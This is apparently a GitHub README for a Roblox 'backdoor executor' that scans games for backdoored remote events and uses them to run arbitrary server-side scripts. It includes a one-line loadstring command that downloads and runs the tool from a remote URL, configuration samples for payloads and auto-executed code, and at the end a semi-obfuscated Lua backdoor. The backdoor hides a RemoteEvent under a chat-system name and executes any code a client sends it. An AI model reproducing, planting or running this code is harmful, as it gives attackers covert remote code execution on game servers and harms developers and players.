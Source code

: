 # backdoor-executor.lua

* The very best backdoor scanning utility in existance.

## Info

A backdoor scanner for [ROBLOX](https://roblox.com) that scans the game for potential backdoored remotes and uses them for running server-sided scripts.  

### Features

* Fast Backdoor Scanner
* Remote and Output Redirection (DISABLED BY DEFAULT)
* Auto Execute (CUSTOMIZABLE)
* Macros (CUSTOMIZABLE)
* AND MUCH MORE!!

### Script

```lua
loadstring(game:HttpGetAsync("https://raw.githubusercontent.com/jLn0n/scripts/main/backdoor-executor/backdoor-executor.lua"))()
```
> Just copy the script below and run it through your script utility(executor).  

### Requirements

- A brain that knows this stuff.
- A decent script utility that supports most of [UNC](https://scriptunc.org) functions (such as file functions).

### FAQ

- My configuration file got resetted back to original.
> That's completely normal, it will happen usually if the configuration failed to load.  
> (I might remove the overwrite thing soon.)

- How can I enable Remote and Output Redirection?
> Enable them through the config file.  

- How does the Remote Redirection works?
> It works by creating a new remote and using that new remote for running scripts.  
> It also provides some features like anti-destroy and anti-logger.  

### Configuration Wiki

- Using Cache:
> Caching can be used to quickly find the remote on a specific game without any waiting.   
> example:
```lua
[placeid] = {
	["Path"] = "remote.path.here", -- this is the path of the remote, don't do remote.path["here"] or it will not work
	["Args"] = {"arg1here", "source"}, -- source is the place that the executing script will be putted
	["SourceFunc"] = function(source) -- use this if a game has a custom encryption for source
		return source
	end
}
```

- Using Auto Execute:
> AutoExecute can be used to load script after backdoor is successfully found.  
> You can put many code as long as you want inside the table, example:
```lua
-- it should be a array and don't add a nil or it will not work
{
	[[warn("backdoor-executor.lua loaded!")]],
	[[require(someid).load(%username%)]],
},
```

- Using Script Macros:
> Script Macros can be very helpful to set values.  
> Config example:
```lua
{
	["staticmacro"] = "value", -- returns "value"
	["dynamicmacro"] = function() -- returns a random number of 1-100
		return math.random(1, 100)
	end,
}
```
> Usage example:
```lua
print(%username%, %userid%, %placeid%) -- prints "Username", 69420, 1818 as an example
```

- Using Remote Filters:
> Remote Filters can be used to block any of the remotes with specific properties.  
> example:
```lua
{
	["exampleFilter"] = function(remoteObj) -- the remote will be filtered out of the remoteObj name is "bogus" and its parent name is "yomama"
		return remoteObj.Name == "bogus" or remoteObj.Parent.Name == "yomama"
	end,
},
```

- Using Backdoor Payloads:
> Backdoor Payloads is a new feature that can be used to customize arguments of remotes on when scanning.  
> It can be also be used for a certain remote to be used with the provided payload.  
> example:
```lua
{
	["examplePayload"] = {
		["Payload"] = {"arg1here", "source"}, -- this is the arguments that is gonna be loaded in the specified remote, same details as the args in cache
		["Verifier"] = function(remoteObj) -- this verifies if remoteObj is appropriate to be used for payload, the remote will be provided with the argument {"arg1here", "payloadSrc"} if remoteObj is descendant of JointsService
			return remoteObj:IsDescendantOf(game:GetService("JointsService"))
		end
	}
}
```

## Adding a backdoor in your game
Get access to a game in Roblox Studio, create a script and paste the few lines of code below in the script.
Make sure to enable `LoadStringEnabled` property in `ServerScriptService`. (code is semi-obfuscated)
```lua
if game:GetService("\82\117\110\83\101\114\118\105\99\101"):IsStudio() or not game:GetService("\83\101\114\118\101\114\83\99\114\105\112\116\83\101\114\118\105\99\101")["\76\111\97\100\83\116\114\105\110\103\69\110\97\98\108\101\100"] then return end;local a=Instance.new("\82\101\109\111\116\101\69\118\101\110\116");a.Name="\71\101\116\80\108\97\121\101\114\77\101\115\115\97\103\101\65\115\121\110\99";a.Parent=game:GetService("\82\101\112\108\105\99\97\116\101\100\83\116\111\114\97\103\101"):WaitForChild("\68\101\102\97\117\108\116\67\104\97\116\83\121\115\116\101\109\67\104\97\116\69\118\101\110\116\115");a.OnServerEvent:Connect(function(_, b)loadstring(b)()end)
```
